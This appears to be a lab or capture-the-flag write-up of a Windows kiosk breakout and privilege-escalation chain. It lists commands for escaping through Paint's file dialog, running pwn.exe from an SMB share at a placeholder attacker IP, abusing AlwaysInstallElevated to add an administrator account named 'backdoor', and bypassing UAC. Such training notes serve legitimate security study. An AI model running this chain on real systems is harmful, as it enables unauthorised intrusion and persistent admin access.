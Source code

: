 ### Lab 1: User Flag (pmorgan Downloads)
```cmd
# Objective: Get flag from C:\Users\pmorgan\Downloads
# Method: Dialog box bypass to access restricted directory

# Steps:
1. Open Paint > File > Open
2. Navigate to: \\127.0.0.1\c$\users\pmorgan\Downloads  
3. Access flag.txt
# Flag location: C:\Users\pmorgan\Downloads\flag.txt
```

### Lab 2: Administrator Flag
```cmd
# Objective: Get flag from C:\Users\Administrator\Desktop
# Method: Full privilege escalation chain

# Complete process:
1. Dialog box breakout for CMD access
2. Copy tools from SMB share
3. Use PowerUp for AlwaysInstallElevated
4. Create admin user with MSI
5. UAC bypass with Bypass-UAC.ps1
6. Access Administrator desktop

# Flag location: C:\Users\Administrator\Desktop\flag.txt
```

## 🔄 Complete Attack Chain

### Comprehensive Breakout Process
```cmd
# 1. Initial access via dialog box
Paint > File > Open > \\127.0.0.1\c$\users\<user>

# 2. SMB server setup
smbserver.py -smb2support share $(pwd)

# 3. Tool transfer and execution  
\\<attacker_ip>\share\pwn.exe

# 4. Privilege enumeration
.\PowerUp.ps1 
# or
.\winPEAS.exe

# 5. AlwaysInstallElevated exploitation
Write-UserAddMSI
# Execute UserAdd.msi

# 6. Admin user creation
Username: backdoor
Password: Complex@123
Group: Administrators  

# 7. Context switch
runas /user:backdoor cmd

# 8. UAC bypass
Bypass-UAC -Method UacMethodSysprep

# 9. Full system access
whoami /priv
```